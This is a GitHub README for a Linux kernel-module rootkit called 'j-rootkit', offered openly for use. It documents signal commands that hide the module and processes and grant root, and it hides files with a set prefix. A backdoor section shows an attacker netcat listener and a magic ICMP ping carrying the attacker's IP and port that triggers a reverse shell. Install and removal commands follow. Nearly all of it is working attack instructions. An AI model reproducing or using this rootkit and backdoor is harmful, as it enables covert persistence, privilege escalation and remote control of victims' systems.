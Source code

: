 # j-rootkit
Tested on Ubuntu 22.04 and Debian 12.4

# Usage
Hide/Show rootkit in the list of loaded modules (`$ lsmod`)
```sh
$ kill -63 1
```
When installed it starts hidden. You can only remove it when it's unhidden.

Become root:
```sh
$ kill -64 1
```

Hide process with pid
```sh
$ kill -62 <pid>
```

Unhide process with pid
```sh
$ kill -61 <pid>
```

It also hides every file and directory with prefix `rootk_`.

# Backdoor
On attacker machine start netcat listener on some port:
```sh
$ nc -lnvp <port>
```

Send ICMP ping to victim:
```sh
$ nping --icmp -c 1 -dest-ip <victim-ip> --data-string 'wA@2mC!dq <attacker-ip> <port>'
```

# Install
Compile module and backdoor:
```sh
$ make
$ make install
```

Load module:
```sh
$ sudo insmod build/rootkit.ko
```

# Remove
Make sure the module is visible in `lsmod`. To toggle visibility do `kill -63 1`. Then, remove it with:
```sh
$ sudo rmmod rootkit.ko
```

# References
- [Nearly Complete Linux Loadable Kernel Modules](https://web.archive.org/web/20140701183221/https://www.thc.org/papers/LKM_HACKING.html#II.2.1.)
- [linux kernel hacking repo](https://github.com/xcellerator/linux_kernel_hacking)
- [diamorphine](https://github.com/m0nad/Diamorphine)
